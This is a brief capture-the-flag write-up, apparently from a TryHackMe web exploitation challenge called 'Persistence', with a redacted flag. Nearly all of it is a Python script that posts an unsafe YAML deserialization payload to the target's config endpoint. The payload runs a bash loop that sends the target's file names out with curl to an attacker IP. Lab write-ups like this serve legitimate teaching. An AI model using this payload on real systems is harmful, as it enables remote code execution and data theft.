 ```yaml
---
title: Persistence
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 60
solves: -1
flags: THM{REDACTED}
---
```

> After the notorious malware strike on the Virelia Water Control Facility, phantom alerts and erratic sensor readings plague a system that was supposed to be fully remediated.
>
> As a Black Echo red-team specialist, you must penetrate the compromised portal, unravel its hidden persistence mechanism, and neutralise the backdoor before it can be reactivated.

---

```py
import requests

payload = (
    '!!python/object/apply:os.system ["bash -c '
    "'for i in $(ls); do curl http://10.17.37.98/$i; done'\"]"
)

headers = {"X-FTW": "secr3tFTW192d2390", "Content-Type": "application/x-yaml"}

res = requests.post(
    "http://10.10.232.80:8080/config/update", data=payload, headers=headers
)
print(res.status_code, res.text)
```
